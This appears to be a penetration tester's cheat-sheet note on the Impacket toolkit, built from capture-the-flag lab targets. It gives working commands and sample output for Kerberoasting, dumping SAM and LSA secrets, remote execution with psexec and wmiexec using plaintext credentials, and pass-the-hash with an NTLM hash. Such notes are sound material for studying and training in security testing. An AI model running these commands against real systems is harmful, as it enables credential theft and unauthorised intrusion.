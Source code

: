 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

[Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

## Installation

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Usage
### Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

### Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```shell-session
locate secretsdump 
```

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Access with Credentials


`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

### SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system

#### Create SMB Server 

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### SamRDump

```shell-session
samrdump.py 10.129.14.128
```

### RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

### SQL

[impacket/examples/mssqlclient.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

#### MSSQL

```shell-session
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

### WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

## Pass the Hash

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), see [[SSH Tunnelling#Chisel]]
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)